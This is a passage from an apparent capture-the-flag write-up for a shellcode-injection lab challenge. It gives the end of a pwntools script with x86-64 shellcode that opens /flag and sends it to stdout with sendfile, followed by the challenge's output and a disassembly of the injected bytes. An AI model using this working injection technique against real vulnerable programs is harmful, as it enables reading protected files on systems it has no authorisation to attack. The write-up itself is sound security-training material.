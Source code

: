 ```python
mov rdi, 1                  # first argument to sendfile is the file descriptor to output to (stdout)
mov rsi, rax                # second argument is the file descriptor returned by open
mov rdx, 0                  # third argument is the number of bytes to skip from the input file
mov r10, 1000               # fourth argument is the number of bytes to transfer to the output file
mov rax, 40                 # syscall number of sendfile
syscall                     # trigger sendfile(1, fd, 0, 1000)

mov rax, 60                 # syscall number of exit
syscall                     # trigger exit()
''')

p.sendline(shellcode)
p.interactive()
```

Hence running this we get our flag ->


```shell
hacker@shellcode-injection~level1:~$ python3 script.py
[+] Starting local process '/challenge/babyshell-level-1': pid 30477
[*] Switching to interactive mode
[*] Process '/challenge/babyshell-level-1' stopped with exit code 1 (pid 30477)
###
### Welcome to /challenge/babyshell-level-1!
###

This challenge reads in some bytes, modifies them (depending on the specific challenge configuration), and executes them
as code! This is a common exploitation scenario, called `code injection`. Through this series of challenges, you will
practice your shellcode writing skills under various constraints! To ensure that you are shellcoding, rather than doing
other tricks, this will sanitize all environment variables and arguments and close all file descriptors > 2.

In this challenge, shellcode will be copied onto the stack and executed. Since the stack location is randomized on every
execution, your shellcode will need to be *position-independent*.

Allocated 0x1000 bytes for shellcode on the stack at 0x7ffee1223510!
Reading 0x1000 bytes from stdin.

This challenge is about to execute the following shellcode:

      Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x00007ffee1223510 | 48 bb 2f 66 6c 61 67 00 00 00                 | movabs rbx, 0x67616c662f
0x00007ffee122351a | 53                                            | push rbx
0x00007ffee122351b | 48 c7 c0 02 00 00 00                          | mov rax, 2
0x00007ffee1223522 | 48 89 e7                                      | mov rdi, rsp
0x00007ffee1223525 | 48 c7 c6 00 00 00 00                          | mov rsi, 0
0x00007ffee122352c | 0f 05                                         | syscall 
0x00007ffee122352e | 48 c7 c7 01 00 00 00                          | mov rdi, 1
0x00007ffee1223535 | 48 89 c6                                      | mov rsi, rax
0x00007ffee1223538 | 48 c7 c2 00 00 00 00                          | mov rdx, 0
0x00007ffee122353f | 49 c7 c2 e8 03 00 00                          | mov r10, 0x3e8
0x00007ffee1223546 | 48 c7 c0 28 00 00 00                          | mov rax, 0x28
0x00007ffee122354d | 0f 05                                         | syscall 
0x00007ffee122354f | 48 c7 c0 3c 00 00 00                          | mov rax, 0x3c
0x00007ffee1223556 | 0f 05                                         | syscall 

Executing shellcode!
```